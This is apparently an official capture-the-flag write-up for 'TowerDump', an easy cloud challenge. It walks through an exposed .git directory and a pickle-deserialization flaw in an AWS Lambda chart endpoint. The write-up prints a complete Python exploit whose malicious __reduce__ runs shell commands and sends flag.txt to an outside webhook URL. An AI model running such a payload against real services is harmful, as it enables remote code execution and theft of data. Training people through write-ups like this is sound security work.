





<font size="5">TowerDump</font>

  13<sup>th</sup> May 2025

  Prepared By: endoffile

  Challenge Author: endoffile

  Difficulty: <font color=green>Easy</font>

  Classification: Official


# Synopsis

TowerDump is an Easy Cloud challenge that demonstrates a common AWS Lambda misconfiguration leading to Remote Code Execution (RCE). The challenge features a web application that uses AWS Lambda for generating power consumption charts. While the application appears to safely handle user input, a code injection vulnerability in the Lambda function allows attackers to execute arbitrary code within the Lambda environment. By exploiting this vulnerability, players can execute commands in the Lambda runtime and retrieve the flag stored within the instance.

# Description

Our intelligence team has identified a power monitoring system used by Volnaya's infrastructure team. The system appears to have some security flaws in its chart generation functionality. We need you to investigate the system and find a way to access sensitive information that might be stored in the Lambda environment.

```bash
IP: 98.85.164.2
```

# Skills Required
- Basic AWS Lambda knowledge
- Python code injection techniques
- Basic web application testing
- Understanding of serverless security

# Skills Learned
- AWS Lambda function exploitation
- Code injection in serverless environments
- Cloud service security misconfigurations

# Solution

After analyzing the application's structure, we began with directory enumeration using Gobuster and a common wordlist to discover hidden endpoints:



<br><hr>
During our investigation of the `/code` path, we discovered an exposed `.git` directory:



<br><hr>
Using git-dumper, we successfully cloned the repository to access the application's source code:



<br><hr>
Here's the retrieved codebase structure:



## Source Code Analysis

In `./src/dashboard/app.py`, we identified an `/api/chart` API endpoint that functions as a proxy to an AWS Lambda function.



<br><hr>

Further inspection of the Lambda function revealed that it accepts chart data in Python's pickle format. This is particularly concerning because Python's pickle module is known for its security vulnerabilities during deserialization. When the data source is compromised, pickle can be exploited to execute arbitrary code during the deserialization process.


### Full Exploit

The exploit code leverages Python's pickle deserialization vulnerability to achieve remote code execution on the Lambda function. Here's a breakdown of how it works:

- The code uses Python's pickle module to create a malicious serialized payload that will execute arbitrary commands when deserialized
- A webhook URL is defined to receive the exfiltrated flag data
- The exploit consists of several key components:
  - A malicious Python class `PickleRCE` that executes shell commands when deserialized 
  - Functions to create and encode the pickled payload in base64
  - Code to send the payload to the Lambda function's API endpoint
  - Error handling and logging functionality

The main workflow:
1. Creates a malicious pickled object that will execute code to read the flag file
2. Encodes the payload in base64 and wraps it in a JSON request
3. Sends the payload to the Lambda function's `/api/chart` endpoint
4. The Lambda deserializes the pickle data, executing our code
5. The flag contents are sent to our webhook URL

Key features:
- Uses Python's standard libraries for HTTP requests and JSON handling
- Includes detailed logging and error handling
- Formats the payload to match the API's expected structure
- Handles both successful and failed exploit attempts

The code demonstrates how pickle deserialization can be exploited to achieve remote code execution in serverless environments when proper input validation is not implemented.

```python
import pickle
import base64
import urllib.request
import json
from datetime import datetime, timedelta

# AWS Credentials obtained from git repository
WEBHOOK_URL = "https://webhook.site/d1709498-fd25-47e0-a84b-feb12f4664aa"

base_url = "http://localhost"

# Malicious Python code to be executed on target
# This code reads the flag file and sends its content to our webhook
rce_code = '''
import json,urllib.request,subprocess;
data=subprocess.check_output(["cat", "flag.txt"]).decode();
urllib.request.urlopen("WEBHOOK_URL",data=data.encode("utf-8"));
'''.replace("\n", "").replace("WEBHOOK_URL", WEBHOOK_URL)

# Pickle exploitation class
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(f"python3 -c '{rce_code}'",))

def create_payload():
    """
    Create and encode the pickled payload
    """
    try:
        # Create the pickled object
        pickled_obj = pickle.dumps(PickleRCE())
        # Encode to base64
        encoded_payload = base64.b64encode(pickled_obj).decode('utf-8')
        return encoded_payload
    except Exception as e:
        print(f"[-] Error creating payload: {str(e)}")
        return None

def send_pickled_payload():
    """
    Send the pickled payload to the Lambda function in JSON format
    """
    try:
        # Create the payload
        payload = create_payload()
        if not payload:
            return

        # Prepare the request
        url = f"{base_url}/api/chart"
        headers = {
            'Content-Type': 'application/json',
            'X-Pickled': 'true'
        }

        # Create JSON payload with pickled data
        json_payload = {
            "data": payload,
            "pickled": True,
            "labels": ["00:00", "01:00"],
            "values": [1.0, 2.0]
        }

        # Convert JSON payload to bytes
        payload_bytes = json.dumps(json_payload).encode('utf-8')

        print("[+] Sending pickled payload to Lambda function...")
        print(f"[+] Target URL: {url}")
        print(f"[+] Headers: {headers}")
        print(f"[+] Payload length: {len(payload_bytes)} bytes")

        # Create and send the request
        req = urllib.request.Request(
            url=url,
            data=payload_bytes,
            headers=headers,
            method='POST'
        )

        try:
            # Send request and get response
            response = urllib.request.urlopen(req)
            print(f"[+] Response Status: {response.status}")
            response_data = response.read().decode('utf-8')
            print(f"[+] Response: {response_data}")
        except urllib.error.HTTPError as e:
            if e.code == 500:
                print("[+] Received status code 500 - This might indicate successful RCE!")
                print("[+] Check your webhook for the flag...")

    except Exception as e:
        print(f"[-] Error sending payload: {str(e)}")

def main():
    print("[*] Starting Lambda RCE Exploit")
    print(f"[*] Target URL: {base_url}/prod/chart")
    print(f"[*] Webhook URL: {WEBHOOK_URL}")
    print("[*] Generated pickled payload")

    # Send the payload
    send_pickled_payload()
if __name__ == "__main__":
    main()
```
